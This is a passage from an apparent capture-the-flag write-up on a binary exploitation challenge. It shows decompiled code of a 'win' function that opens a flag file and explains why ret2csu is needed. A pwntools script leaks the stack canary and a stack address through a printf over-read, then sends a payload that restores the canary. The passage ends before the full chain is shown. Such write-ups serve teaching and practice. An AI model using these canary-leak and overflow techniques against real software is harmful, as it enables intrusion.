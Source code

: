 ```c
                                                  CONCAT11(param_2,param_1)))))));
  __stream = fopen((char *)&local_52,"r");
  if (__stream == (FILE *)0x0) {
    puts("Error opening flag file.");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  fgets((char *)&local_48,0x20,__stream);
  puts((char *)&local_48);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
if you look closely win needs 3 arguments so we need to do ret2csu not just a simple ret2win.

```c
local_52 = CONCAT17(0x74,CONCAT16(0x78,CONCAT15(0x74,CONCAT14(0x2e,CONCAT13(0x67,CONCAT12(param_3,
                                                  CONCAT11(param_2,param_1)))))));
```
this line of code is actually concating string t + x + t + . + g + arg3 + arg2 + arg1, we have to put f , l and a in arg 1,2,3.

### Exploit
After analyzing it we know that the program has Buffer Overflow. As we can see the second question read `0x1e` size the third read `0x5a` and can 
causes stack smashing (since they enabled the canary protection), but if you look closely they has printf with `%s` as the format 
specifier, and not just that the third question uses the same buffer, but what can we do with it?? so simply we can leak canary and escape from stack 
smashing, beautiful isn't it.

To leak it you need to input character until it touch the null byte of the canary, let's implement this with pwntools.
```python
p.recv()
p.sendline(b'y'*10)

can_buff = p.recvuntil(b'Can you provide some extra feedback?').split(b'\n')
indx = 2 # sometimes 1,2 
canary = u64(can_buff[indx][:7].rjust(8, b'\x00')) 
win_buff = u64(can_buff[indx][7:].ljust(8, b'\x00'))
info("canary: %#x", canary)
info("stack: %#x", win_buff)

payload = flat(
    b'y' * 10,
    canary
)

p.sendline(payload)
```
So first we leak canary then with the third question we recover it (put the canary back) so the program won't close, and i notice that the program also leak
something else, apparently it was a stack address to be precise it was stack address after the canary, so i decided to save it for later use.
